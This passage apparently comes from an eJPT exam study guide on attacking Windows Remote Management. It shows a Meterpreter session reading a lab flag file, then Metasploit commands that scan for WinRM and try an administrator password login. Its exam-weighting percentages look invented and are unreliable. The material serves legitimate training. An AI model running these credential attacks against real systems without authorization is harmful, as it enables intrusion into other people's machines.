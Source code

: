 ```bash
040777/rwxrwxrwx    16384    dir   2020-09-09 10:03:42 +0530  Windows
100444/r--r--r--   48692    fil   2020-09-09 10:03:42 +0530  bootmgr
100666/rw-rw-rw-   32       fil   2020-10-01 20:22:47 +0530  flag.txt
000000/---------   0        fif   1970-01-01 05:30:00 +0530  pagefile.sys

meterpreter > cat flag.txt
3c716f95616eec677a7078f92657a230
```

#### **🏆 Mission Accomplished!**
- **Flag Found:** 3c716f95616eec677a7078f92657a230
- **File System Access:** Complete access to all directories
- **Proof of Exploitation:** Successfully compromised the target
- **Documentation Complete:** All evidence collected

---

## 🎯 eJPT Exam Success Guide

### **📊 How Important This Is for eJPT:**

Understanding the importance of WinRM skills for passing the eJPT exam:

- **Windows Exploitation:** 35% of Windows-based attack scenarios
- **Remote Access Techniques:** 40% of lateral movement questions
- **Password Attack Skills:** 45% of credential-based exploitation
- **Metasploit Proficiency:** 50% of framework usage requirements

### **🏆 Commands You MUST Know for eJPT:**

#### **Level 1 - You WILL See This (100% Chance):**
```bash
# Basic port scanning for WinRM
nmap -p 5985,5986 target_ip
# Expected: Shows if WinRM ports are open

# Connect to WinRM and check authentication
use auxiliary/scanner/winrm/winrm_auth_methods
set RHOSTS target_ip
exploit
# Expected: Shows supported authentication methods

# Try password attack
use auxiliary/scanner/winrm/winrm_login
set RHOSTS target_ip
set USERNAME administrator
set PASSWORD password123
exploit
# Expected: Login success or failure message
```
